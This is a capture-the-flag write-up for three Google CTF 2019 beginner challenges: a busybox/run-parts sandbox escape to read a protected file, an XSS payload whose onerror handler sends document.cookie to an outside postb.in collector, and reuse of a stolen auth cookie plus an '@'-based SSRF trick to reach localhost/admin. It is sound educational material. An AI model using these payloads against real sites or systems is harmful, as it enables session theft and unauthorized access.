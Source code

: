 # GoogleCTF
## 2019 - Beginner Quest (Part 3)
[lint to Part 1](./GoogleCTF_Beginner_Quest.html)
[lint to Part 2](./GoogleCTF_Beginner_Quest_2.html)

### Day 3 - Work Computer (sandbox)
#### Steps
1. There is another flag hidden in the task. We cannot open the "ORME.flag" using the same method as the origional method. listing the permission, we can see that there are no permission for the current user.
    ```console
    > tar -c ORME.flag
    tar: can't open 'ORME.flag': Permission denied
    tar: error exit delayed from previous errors
    > ls -l
    total 8
    ----------    1 1338     1338            33 Aug  3 13:27 ORME.flag
    -r--------    1 1338     1338            28 Aug  3 13:27 README.flag
    ```
1. Again, we have to enumerate to find all commands in `/bin`. After searching and reference from other [write-ups](https://github.com/AidanFray/CTF_Writeups/tree/master/2019/GoogleCTF/BeginnerQuests/WorkComputer), we can find the useful command `run-parts`.
    1. Firstly we install the environment in tmp, making the directory having only one command.
        > install /bin/busybox /tmp
    1. Then we can test it through the `run-parts` command:
        ```console
        > run-parts /tmp
        BusyBox v1.29.3 (2019-01-24 07:45:07 UTC) multi-call binary.
        BusyBox is copyrighted by many authors between 1998-2015.
        Licensed under GPLv2. See source distribution for detailed
        copyright notices.
        ```
    1. then we can call the shell out. Note that as the 'busybox' we installed is a fresh new instance, it has the commands like 'chmod' that is not exist with the instance that we enconter when we connects in it.
        ```console
        > run-parts /tmp --arg sh 
        $ ls
        ORME.flag
        README.flag
        $ busybox chmod 777 ORME.flag    
        $ busybox cat ORME.flag
        CTF{XXXXXXXXXXXXXXXXXXXXXX}
        ```


### Day 5 - Cookie World Order (web) 
#### Steps
1. In this task, we are given a website with a video and a chartroom. we can type things into the chatroom, but any XSS script will be translated to `HACKER ALERT` comment.
    ![Webpage](./images/GoogleCTF/beginner_quest/img11.png) 
1. But the blind spot is that HTML is still valid and javascript in `onerror` is not checked. Therefore we can use the same XSS trick as Part 1 with our postb.in friend. Then there is our flag!
    > <img src="x" onerror="document.location='https://postb.in/1564843387388-4921431124676/?'+document.cookie">
    ![Flag](./images/GoogleCTF/beginner_quest/img12.png) 



### Day 4 - Cookie World Order (web) 
#### Steps
1. With the flag, there comes with another cookie `auth`, which may bring us to another flag:
    > auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz
1. Remember the previous XSS flag, where there is a '/admin' directory? yes, there is an admin directory here too. Only that it redirects us back to the website unless we give the `auth` cookie.
    > document.cookie = "auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz"
    ![Admin site](./images/GoogleCTF/beginner_quest/img13.png) 
1. Well there is not much to see, and the 'Camera Control' tab is not working too.
    > Requests only accepted from 127.0.0.1
1. Then we have to find other ways to locate the file 'locally'. Enumering all the urls we have, the streaming path is a local file we found:
    > /watch?livestream=http://cwo-xss.web.ctfcompetition.com/livestream/garden-livestream.webm
1. However, trying to replace the path solely is not enough as it is not recongized also as a local file request. We have to fake the server by putting a additional '@' sign to trick it. After that our flag appears!
    > http://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@localhost/admin/controls
    ![Flag](./images/GoogleCTF/beginner_quest/img14.png) 
